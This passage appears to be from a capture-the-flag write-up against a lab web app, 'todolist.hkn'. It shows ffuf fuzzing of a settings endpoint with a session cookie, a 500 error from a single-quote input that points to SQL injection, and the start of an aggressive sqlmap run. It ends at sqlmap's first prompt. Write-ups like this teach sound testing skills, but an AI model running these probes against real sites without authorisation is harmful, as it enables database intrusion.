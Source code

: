 Let's see if there are any other settings that are not shown. Each setting has its own page such as `intro` being: `http://todolist.hkn/settings/edit/intro`.

After a bit of fuzzing i found this:

```sh
$ ffuf -w ~/Hacking/wordlists/directory-list-2.3-medium.txt -u 'http://todolist.hkn/settings/edit/FUZZ' -H "Cookie: session=.eJwlzjsOwjAMANC7eGaIkziOe5kq_gnWlk6Iu1MJvQu8D-x5xPmE7X1c8YD95bBBnTSWrVbKrGrEqy5i9qE2i4saS7SimFPqHBPFevJc7MwthPrqoot7KXJzMxoxMBp2sm7haWyJaCObk1AtJIHEmRKsSq4Jd-Q64_hvEL4_p2QvjQ.ZjzkqQ.FqwaLPudBvqcbQhJNda3QZPcRzo" -fc 302 -t 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://todolist.hkn/settings/edit/FUZZ
 :: Wordlist         : FUZZ: /home/dnorhoj/Hacking/wordlists/directory-list-2.3-medium.txt
 :: Header           : Cookie: session=.eJwlzjsOwjAMANC7eGaIkziOe5kq_gnWlk6Iu1MJvQu8D-x5xPmE7X1c8YD95bBBnTSWrVbKrGrEqy5i9qE2i4saS7SimFPqHBPFevJc7MwthPrqoot7KXJzMxoxMBp2sm7haWyJaCObk1AtJIHEmRKsSq4Jd-Q64_hvEL4_p2QvjQ.ZjzkqQ.FqwaLPudBvqcbQhJNda3QZPcRzo
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 302
________________________________________________

intro                   [Status: 200, Size: 2822, Words: 994, Lines: 115, Duration: 792ms]
'                       [Status: 500, Size: 2502, Words: 794, Lines: 67, Duration: 604ms]
:: Progress: [2483/220546] :: Job [1/1] :: 225 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
```

It got an internal server error when requesting `http://todolist.hkn/settings/edit/'`. My first thought was that this might be an SQL injection. This happens as it tries to look up the settings value with an SQL query. This SQL query then fails as there is an invalid sql injection.

Let's try to get something working in `sqlmap`. We can tell sqlmap to try to inject the SQL injection in the URL by adding a `*` where it should insert the payload.

```log
$ sqlmap -u 'http://todolist.hkn/settings/edit/*' -H 'Cookie: session=.eJwlzjsOwjAMANC7eGaIkziOe5kq_gnWlk6Iu1MJvQu8D-x5xPmE7X1c8YD95bBBnTSWrVbKrGrEqy5i9qE2i4saS7SimFPqHBPFevJc7MwthPrqoot7KXJzMxoxMBp2sm7haWyJaCObk1AtJIHEmRKsSq4Jd-Q64_hvEL4_p2QvjQ.ZjzkqQ.FqwaLPudBvqcbQhJNda3QZPcRzo' --level 5 --risk 3
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.10#pip}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:07:48 /2024-05-09/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
```
